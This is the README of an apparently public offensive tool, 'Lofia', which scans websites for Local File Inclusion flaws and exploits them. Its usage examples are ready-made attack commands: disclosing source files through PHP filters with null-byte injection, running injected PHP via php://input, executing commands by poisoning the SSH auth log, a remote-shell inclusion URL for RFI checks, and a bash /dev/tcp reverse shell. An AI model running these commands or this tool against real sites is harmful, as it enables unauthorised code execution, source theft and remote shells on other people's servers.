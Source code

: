 # Lofia
Local File Inclusion (LFI) Scan &amp; Exploit Tool
--
Lofia is a tool to check sites to lfi vulnerability and also exploit it

Features:

- [x] Check all url parameters
- [x] /var/log/auth.log RCE
- [x] /proc/self/environ RCE
- [x] php://input RCE
- [x] data://text RCE
- [x] Source code disclosure
- [x] Multi thread scanner
- [x] Command shell interface through HTTP Request
- [x] Proxy support (socks4://, socks4a://, socks5:// ,socks5h:// and http://)
- [x] Proxy socks5 support for bind connections

## Compile:

```sh
$ git clone https://github.com/ratoons/Lofia.git
$ cd Lofia
```

You can run the configure file:

```sh
./configure
```

Or follow this steps:

### Installing libcurl:
* CentOS/Fedora

```sh
# yum install libcurl-devel
```

* Debian based

```sh
# apt-get install libcurl4-openssl-dev
```

* Mac OS X based

```sh
$ brew install openssl
```

### Installing libpcre:
* CentOS/Fedora

```sh
# yum install pcre-devel
```

* Debian based

```sh
# apt-get install libpcre3-dev
```

* Mac OS X based

```sh
$ brew install pcre
```

### Installing libssh:

* CentOS/Fedora

```sh
# yum install libssh-devel
```

* Debian based

```sh
# apt-get install libssh-dev
```

* Mac OS X based

```sh
$ brew install libssh
```

### And finally:

```sh
$ make
```
## Options:

```
  -h, --help                    Display this help menu

  Request:
    -B, --cookie STRING         Set custom HTTP Cookie header
    -A, --user-agent STRING     User-Agent to send to server
    --connect-timeout SECONDS   Maximum time allowed for connection
    --retry-times NUMBER        number of times to retry if connection fails
    --proxy STRING              Proxy to connect, syntax: protocol://hostname:port

  Scanner:
    -u, --url STRING            URL to scan/exploit
    -U, --url-list FILE         File contains url list to scan
    -o, --output FILE           File to save output results
    -t, -threads NUMBER         Number of threads (2..1000)

  Explotation:
    --parameter STRING          Parameter name to inject exploit
                                (only needed by RCE data and source disclosure)

  RCE:
    -T, --technique=TECH        LFI to RCE technique to use
    -C, --code STRING           Custom PHP code to execute, with php brackets
    -c, --cmd STRING            Execute system command on vulnerable target system
    -s, --shell                 Simple command shell interface through HTTP Request

    --connect STRING            Ip/Hostname to connect
    -p, --port NUMBER           Port number to connect or listen
    -l, --listen                Bind and listen for incoming connections

    --ssh-port NUMBER           Set the SSH Port to try inject command (Default: 22)
    --ssh-target STRING         Set the SSH Host

    RCE Available techniques

      environ                   Try run PHP Code using /proc/self/environ
      input                     Try run PHP Code using php://input
      auth                      Try run PHP Code using /var/log/auth.log
      data                      Try run PHP Code using data://text

    Source Disclosure:
      -S, --get-source          Try get the source file using filter://
      -f, --filename STRING     Set filename to grab source [REQUIRED]
      -O FILE                   Set output file (Default: stdout)

```

## Examples:

### Scanning:
```
./Lofia -u localhost/?pg=contact -A my_user_agent
./Lofia -U list.txt --threads 10 --connect-timeout 10 --retry-times 0
```
### Get source code of file:
```
./Lofia -u localhost/?pg=contact -S -f "index.php%00" -O local_output.php --parameter pg
```
### Execute php code:
```
./Lofia -u localhost/?pg=php://input%00 -C '<?php echo "pwned"; ?>' -T input
```

### Execute command:
```
./Lofia -t localhost/?pg=/var/log/auth.log -T auth -c 'ls -lah' --ssh-target localhost
```
### Checking for RFI:

You can also check for RFI errors, just put the remote url on resource/common_files.txt
and the regex to identify this, example:


```php
/* http://bad-url.com/shell.txt */
<?php echo base64_decode("c2NvcnBpb24gc2F5IGdldCBvdmVyIGhlcmU="); ?>
```

in file:
```
http://bad-url.com/shell.txt?:scorpion say get over here
```

### Reverse shell:
```
./Lofia -u localhost/?pg=contact.php -T data --parameter pg -l 12345 -c 'bash -i >& /dev/tcp/127.0.0.1/12345 0>&1' --retry-times 0
```
